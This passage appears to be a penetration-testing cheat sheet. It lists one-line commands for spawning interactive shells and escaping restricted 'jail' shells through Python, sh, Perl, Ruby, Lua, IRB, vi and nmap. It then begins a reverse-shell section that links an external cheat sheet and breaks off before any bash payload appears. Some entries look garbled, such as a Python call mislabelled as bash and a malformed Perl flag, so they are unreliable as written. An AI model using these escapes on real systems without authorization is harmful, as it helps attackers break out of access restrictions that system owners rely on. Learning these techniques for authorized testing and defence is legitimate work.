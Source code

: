 Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.

python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
bash
```
echo os.system('/bin/bash')
```

sh
```
/bin/sh -i
```

perl
```
perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";
```
ruby
```
ruby: exec "/bin/sh"
```
lua
```
lua: os.execute('/bin/sh')
```
From within IRB
```
exec "/bin/sh"
```
From within vi
```
:!bash
```
From within vi
```
:set shell=/bin/bash:shell
```
(From within nmap)
```
!sh
```


### Reverse Shell tricks

#### Reverse shell Cheat sheets

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

#### Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

